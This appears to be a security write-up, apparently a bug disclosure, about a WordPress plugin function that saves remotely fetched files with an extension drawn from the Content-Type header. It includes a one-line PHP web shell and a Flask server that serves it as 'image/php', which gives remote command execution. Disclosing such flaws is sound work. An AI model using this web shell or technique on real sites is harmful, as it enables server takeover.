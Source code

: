 ```php
            }

            if ( ! is_string( $image_content ) || empty( $image_content ) ) {
                return false;
            }

            if ( ! is_dir( $dir['basedir'] . '/[REDACTED]' ) ) {
                wp_mkdir_p( $dir['basedir'] . '/[REDACTED]' );
            }

            $save = file_put_contents( $dir['basedir'] . '/[REDACTED]/' . $name . '.' . $extension, $image_content );
            if ( ! $save ) {
                return false;
            }

            return $dir['baseurl'] . '/[REDACTED]/' . $name . '.' . $extension;
        }

        return false;

    } catch ( Exception $e ) {
        return false;
    }
}
```

This function accepts a user-provided `$url`, which is fetched using `wp_remote_get()`. If the response is successful, the body of the response is retrieved and stored as a file on disk. The filename is constructed using the original basename of the URL and the file extension is determined based on the `Content-Type` header of the remote response. This introduces a critical flaw: the attacker controls both the contents of the file and the extension, via the remote server.

There is no verification of the actual content type, no restriction on allowed MIME types, and no server-side validation of the file contents. As a result, an attacker can host a malicious server and serve a file like this:

```php
<?php system($_GET['cmd']); ?>
```

...along with a `Content-Type: image/php` header. Since the function blindly splits the content type and extracts the second part as the extension (`php`), the file will be saved as something like:

```
/wp-content/uploads/[REDACTED]/avatar.php
```

To test this, I hosted a minimal Flask server with the following code:

```python
from flask import Flask, Response

app = Flask(__name__)

@app.route('/testimage.png', methods=['GET'])
def test_image():
    response = Response("<?php system($_GET['cmd']); ?>")
    response.headers["Content-Type"] = "image/php"
    return response

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)
```

